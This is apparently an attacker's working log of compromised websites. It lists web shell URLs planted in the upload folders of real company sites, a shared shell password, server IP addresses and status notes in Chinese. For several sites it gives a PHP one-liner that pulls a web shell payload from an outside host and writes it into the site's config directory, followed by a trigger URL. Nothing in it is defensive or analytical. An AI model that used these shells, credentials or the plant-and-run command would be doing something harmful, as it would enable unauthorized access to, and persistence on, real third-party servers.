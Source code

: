 https://flyger.cn/static/backup/upgrade/20240129141018/apps/home/model/33.php |mmk123 |  101.132.249.167
代码更新：0608 ✅
https://flyger.cn/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://flyger.cn/config/httpd.php?d=up

http://cdfengchangyl.com/template/fcyl/js/m123.php |mmk123 |  101.132.249.167 | 404
http://www.hs-himin.com/static/upload/image/20230602/3m.php |mmk123 |  120.27.14.20
http://www.hehuedu.com/static/upload/image/20230816/13.php |mmk123 |  211.149.140.131
http://www.retay-sign.com/static/upload/image/20220521/13.php |mmk123 |  60.247.166.105
https://www.taiyedrill.com/static/upload/image/20220928/3m.php |mmk123 |  47.92.31.194
http://www.zjnfby.com/static/upload/image/20220218/13.php |mmk123 |  81.68.249.222
http://en.sdmlqp.com/static/upload/image/20220518/3m.php |mmk123 |  211.149.190.167  无法创建PHP
http://taiyedrill.com/static/upload/image/20220827/3m.php |mmk123 |  47.92.31.194  连接不上
http://charge.cqjinhesy.com/static/upload/image/20210326/3m.php |mmk123 |  106.55.241.55
http://www.dzdarui.com/static/backup/upgrade/20191026221101/apps/common/3m.php |mmk123 |提权 | 39.98.229.127
https://cs.gpzyjy.com/uploads/220412/3m.php |mmk123 |  8.141.57.49
http://www.nicoc.com.cn/dd.php |big |big | 103.18.206.8

http://www.jsyshj.com/static/upload/image/20230618/3m.php |mmk123 |  122.10.97.181
代码更新：0608  失败 无法加密
http://www.jsyshj.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://www.jsyshj.com/config/httpd.php?d=up

https://junconmachines.com/static/upload/video/20221128/13.php |mmk123 |rsa | 218.247.87.80
https://taiguii.com/static/upload/image/20230803/3m.php |mmk123 |  47.93.234.132 
https://www.rxb.ink/static/BaiDu/picture/3m.php |mmk123 

http://www.hnbzyc.com/uploads/allimg/191225/3m.php |mmk123 |  106.15.77.49
代码更新：0608 ✅
http://www.hnbzyc.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://www.hnbzyc.com/config/httpd.php?d=up

http://xc.qxlcyjt.com/static/upload/other/20191220/3m.php |mmk123 |  47.97.25.132
代码更新：0608 ✅
http://xc.qxlcyjt.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://xc.qxlcyjt.com/config/httpd.php?d=up

https://www.yunfuzhuoxinda.com/static/upload/image/20230905/3m.php |mmk123 |  103.18.206.115
代码更新：0608 ✅
https://www.yunfuzhuoxinda.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://www.yunfuzhuoxinda.com/config/httpd.php?d=up
